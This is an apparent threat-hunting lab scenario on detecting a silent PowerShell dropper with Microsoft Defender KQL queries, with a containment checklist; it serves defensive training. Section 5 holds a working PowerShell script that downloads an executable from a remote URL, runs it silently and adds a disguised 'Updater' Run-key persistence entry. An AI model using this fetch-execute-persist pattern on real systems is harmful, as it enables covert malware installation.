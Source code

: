 # Threat Hunt Scenario: Silent PowerShell Dropper with Persistence

## 1. Overview
This scenario simulates an adversary using PowerShell to download and silently execute an installer (e.g., 7-Zip) into `C:\ProgramData\` and establish persistence through a Run registry key. The objective is to practice hunting this activity using Microsoft Defender Advanced Hunting with KQL queries.

---

## 2. Rationale
Recent threat intel highlights increased abuse of **PowerShell one-liners** to deliver droppers and set persistence without writing custom malware. Security leadership requested a hunt to validate whether our environment has been exposed to this technique.

---

## 3. Hypothesis
If an attacker abused PowerShell to fetch and silently run an executable, then we should observe:
- PowerShell execution with suspicious parameters (`Invoke-WebRequest`, `/S`, `-ExecutionPolicy Bypass`)
- A file created in `C:\ProgramData\` ending in `.exe`
- Silent execution of that file shortly after download
- Registry persistence via `HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run`

---

## 4. Data Sources
Microsoft Defender for Endpoint (Advanced Hunting tables):
- `DeviceProcessEvents`
- `DeviceNetworkEvents`
- `DeviceFileEvents`
- `DeviceRegistryEvents`

---

## 5. Bad Actor Steps (Lab Simulation)
On a **lab VM**, execute:
```powershell
# Lab script using GitHub release URL
$uri = "https://github.com/charliecash310/silent-dropper-lab/releases/download/v1.0/7z2501-x64.exe"
$out = "C:\ProgramData\7z2408-x64.exe"

Write-Host "Testing connectivity to $uri ..."
try { $uriObj = [uri]$uri } catch { Write-Error "Invalid URI"; exit 1 }

# Test connection (HEAD)
try {
    $r = Invoke-WebRequest -Uri $uri -Method Head -UseBasicParsing -TimeoutSec 15 -ErrorAction Stop
    Write-Host "HEAD OK: $($r.StatusCode)"
} catch {
    Write-Warning "HEAD failed: $($_.Exception.Message) -- will try GET"
}

# Try download
try {
    Write-Host "Downloading via Invoke-WebRequest..."
    Invoke-WebRequest -Uri $uri -OutFile $out -UseBasicParsing -TimeoutSec 120 -ErrorAction Stop
    Write-Host "Downloaded to $out"
} catch {
    Write-Warning "Invoke-WebRequest failed: $($_.Exception.Message)"
    try {
        Write-Host "Trying BITS fallback..."
        Start-BitsTransfer -Source $uri -Destination $out -ErrorAction Stop
        Write-Host "BITS download completed"
    } catch {
        Write-Error "BITS failed: $($_.Exception.Message). Exiting."
        exit 1
    }
}

# Confirm file
if (-not (Test-Path $out)) { Write-Error "Download didn't produce file. Exiting."; exit 1 }

# Optional: compute SHA256 for record
try { Get-FileHash -Path $out -Algorithm SHA256 } catch {}

# Run silently (for installers that accept /S)
try {
    Start-Process -FilePath $out -ArgumentList "/S" -Wait -ErrorAction Stop
    Write-Host "Process executed (silent argument)."
} catch {
    Write-Warning "Start-Process failed (maybe not an installer): $($_.Exception.Message)"
}

# Persistence (HKCU Run key)
try {
    New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value $out -PropertyType String -Force
    Write-Host "Created Run key -> $out"
} catch {
    Write-Warning "Failed to create Run key: $($_.Exception.Message)"
}

```
This generates telemetry for network, file, process, and registry activities.

---

## 6. Hunting Queries (KQL)

### Suspicious PowerShell Execution
```kql
DeviceProcessEvents
| where Timestamp > ago(7d)
| where FileName in~ ("powershell.exe", "pwsh.exe")
| where ProcessCommandLine has_any ("Invoke-WebRequest", "/S", "-ExecutionPolicy Bypass", "-NoProfile")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
| order by Timestamp desc
```

### Network Downloads via PowerShell
```kql
DeviceNetworkEvents
| where Timestamp > ago(7d)
| where InitiatingProcessFileName in~ ("powershell.exe", "pwsh.exe")
| project Timestamp, DeviceName, AccountName, RemoteUrl, RemoteIP, RemotePort, InitiatingProcessCommandLine
| order by Timestamp desc
```

### File Drops into ProgramData
```kql
DeviceFileEvents
| where Timestamp > ago(7d)
| where ActionType == "FileCreated" and FolderPath has @"C:\\ProgramData\\"
| where FileName endswith ".exe"
| project Timestamp, DeviceName, AccountName, FileName, FolderPath, InitiatingProcessCommandLine
```

### Silent Execution of Dropped Files
```kql
DeviceProcessEvents
| where Timestamp > ago(7d)
| where FolderPath has @"C:\\ProgramData\\"
| where ProcessCommandLine has_any ("/S","/silent","/quiet")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine
```

### Persistence via Run Key
```kql
DeviceRegistryEvents
| where Timestamp > ago(7d)
| where RegistryKey has @"\\Run"
| project Timestamp, DeviceName, AccountName, RegistryKey, RegistryValueName, RegistryValueData
```

### Unified Timeline
```kql
union
(DeviceProcessEvents | where FileName in~ ("powershell.exe","pwsh.exe") | project Timestamp, DeviceName, AccountName, Evidence="Proc", Details=ProcessCommandLine),
(DeviceNetworkEvents | where InitiatingProcessFileName in~ ("powershell.exe","pwsh.exe") | extend Details=strcat(RemoteUrl, " ", RemoteIP) | project Timestamp, DeviceName, AccountName, Evidence="Net", Details),
(DeviceFileEvents | where ActionType=="FileCreated" | project Timestamp, DeviceName, AccountName, Evidence="File", Details=strcat(FolderPath,"\\",FileName)),
(DeviceRegistryEvents | where RegistryKey has @"\\Run" | project Timestamp, DeviceName, AccountName, Evidence="Reg", Details=strcat(RegistryKey,"=",RegistryValueData))
| order by Timestamp asc
```

---

## 7. Analyst Workflow
1. Run PowerShell query → find seed events.
2. Pivot to network, file, process, and registry queries.
3. Use unified timeline query for correlation.
4. If chain is confirmed → escalate to incident.

---

## 8. Containment & Eradication
- Isolate affected device in Defender.
- Kill malicious processes.
- Remove dropped EXE.
- Delete persistence Run key.
- Trigger AV scan.
- Reset user credentials if needed.

---

## 9. Success Criteria
- Detect at least three linked events: download → file creation → silent execution.
- Registry Run key persistence tied to same executable.

---

## 10. Deliverables
- Completed Threat Hunt Scenario Template (this doc)
- Screenshots of Advanced Hunting results
- Final Threat Hunt Report (using report template)
- Upload to GitHub for portfolio

---
